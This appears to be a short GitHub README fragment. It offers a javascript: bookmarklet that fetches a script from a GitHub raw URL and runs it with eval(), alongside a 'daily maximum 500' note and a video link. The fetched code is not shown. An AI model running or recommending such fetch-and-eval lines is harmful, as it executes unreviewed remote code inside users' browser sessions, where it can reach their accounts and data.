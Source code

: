 # *****note:daily maximun:500*****

### `javascript:fetch("https://raw.githubusercontent.com/user134383097489237489/pakacha1/main/Untitled-1.js").then((res) => res.text().then((t) => eval(t)))`

https://user-images.githubusercontent.com/94034091/141063607-b08a11f9-5cca-4af1-b721-e2e1759b317c.mp4
